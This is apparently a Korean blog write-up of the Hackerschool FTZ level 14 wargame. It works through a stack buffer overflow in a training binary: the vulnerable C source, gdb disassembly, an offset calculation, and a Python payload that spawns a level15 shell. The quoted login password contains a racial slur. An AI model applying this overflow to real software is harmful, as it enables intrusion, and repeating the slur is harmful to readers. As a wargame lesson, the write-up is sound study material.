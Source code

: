 ```yaml
---
layout: post
title: "Hackerschool FTZ-level14"
categories: [Hackerschool-FTZ]
tags: [pwnable]
redirect_from:
 - /2019/05/26
---
```

```bash
login as: level14 
level14@~~~~'s password: 
[level14@ftz level14]$ ls 
attackme  hint  public_html  tmp 
[level14@ftz level14]$ cat hint 

레벨14 이후로는 mainsource의 문제를 그대로 가져왔습니다. 
버퍼 오버플로우, 포맷스트링을 학습하는데는 이 문제들이 
최고의 효과를 가져다줍니다. 

#include  <stdio.h>
#include  <unistd.h>

main() 
{ int crap; 
  int check; 
  char buf[20]; 
  fgets(buf,45,stdin); 
  if (check==0xdeadbeef) 
   { 
     setreuid(3095,3095); 
     system("/bin/sh"); 
   } 
} 

[level14@ftz level14]$
```


level14/what that nigga want?로 접속하자.

힌트를 보니 check의 값을 변경시켜야 문제를 풀 수 있을 것이다.

소스를 컴파일해 gdb를 돌려보자.

아, 소스에 한글이 있으므로 이건 지워줘야겠다.


```bash
[level14@ftz tmp]$ vi bof.c 
[level14@ftz tmp]$ cat bof.c

#include<stdio.h>

#include<unistd.h>
main() 
{ int crap; 
  int check; 
  char buf[20]; 
  fgets(buf,45,stdin); 
  if (check==0xdeadbeef) 
   { 
     setreuid(3095,3095); 
     system("/bin/sh"); 
   } 
} 

[level14@ftz tmp]$ gcc -o bof bof.c 
[level14@ftz tmp]$
```


이제 gdb를 해보자.


```bash
[level14@ftz tmp]$ gdb bof 
GNU gdb Red Hat Linux (5.3post-0.20021129.18rh) 
Copyright 2003 Free Software Foundation, Inc. 
GDB is free software, covered by the GNU General Public License, and you are 
welcome to change it and/or distribute copies of it under certain conditions. 
Type "show copying" to see the conditions. 
There is absolutely no warranty for GDB.  Type "show warranty" for details. 
This GDB was configured as "i386-redhat-linux-gnu"... 
(gdb) set disassembly-flavor intel 
(gdb) disas main 
Dump of assembler code for function main: 
0x080483b8 <main+0>:    push   ebp 
0x080483b9 <main+1>:    mov    ebp,esp 
0x080483bb <main+3>:    sub    esp,0x38 
0x080483be <main+6>:    and    esp,0xfffffff0 
0x080483c1 <main+9>:    mov    eax,0x0 
0x080483c6 <main+14>:   sub    esp,eax 
0x080483c8 <main+16>:   sub    esp,0x4 
0x080483cb <main+19>:   push   ds:0x80495d0 
0x080483d1 <main+25>:   push   0x2d 
0x080483d3 <main+27>:   lea    eax,[ebp-56] 
0x080483d6 <main+30>:   push   eax 
0x080483d7 <main+31>:   call   0x80482d8  <fgets>
0x080483dc <main+36>:   add    esp,0x10 
0x080483df <main+39>:   cmp    DWORD PTR [ebp-16],0xdeadbeef 
0x080483e6 <main+46>:   jne    0x804840d <main+85> 
0x080483e8 <main+48>:   sub    esp,0x8 
0x080483eb <main+51>:   push   0xc17 
0x080483f0 <main+56>:   push   0xc17 
0x080483f5 <main+61>:   call   0x80482f8  
0x080483fa <main+66>:   add    esp,0x10 
0x080483fd <main+69>:   sub    esp,0xc 
0x08048400 <main+72>:   push   0x80484bc 
---Type  to continue, or q  to quit--- 
0x08048405 <main+77>:   call   0x80482c8  <system>
0x0804840a <main+82>:   add    esp,0x10 
0x0804840d <main+85>:   leave 
0x0804840e <main+86>:   ret 
0x0804840f <main+87>:   nop 
End of assembler dump. 
(gdb)
```


fgets에 들어오는 인좌를 보니 main+27에서 buf의 주소가 ebp-56인걸 알 수 있다.

main+39에서 0xdeadbeef와 무언가를 비교하는게 보인다.

C에서 check와 비교하는 코드일 것이다.

그렇다면 check의 주소값이 ebp-16인 것을 알 수 있다.

buf(ebp-56) - check(ebp-16) = 40

그러므로 40개의 쓸모없는 값 뒤에 deadbeef를 넣으면 답이 나옴을 알 수 있다.

가보자.


```bash
[level14@ftz level14]$ (python -c 'print"\x90"*40+"\xef\xbe\xad\xde"';cat)|./attackme 
whoami 
level15
my-pass
Level15 Password is "guess what". 
```


전에 언급했듯이 프로그램을 실행과 동시에 인좌를 주는 것이 아니라 실행 후 입력이므로 cat과 파이프를 이용해 코드를 작성해야 한다.


level15's password:"guess what"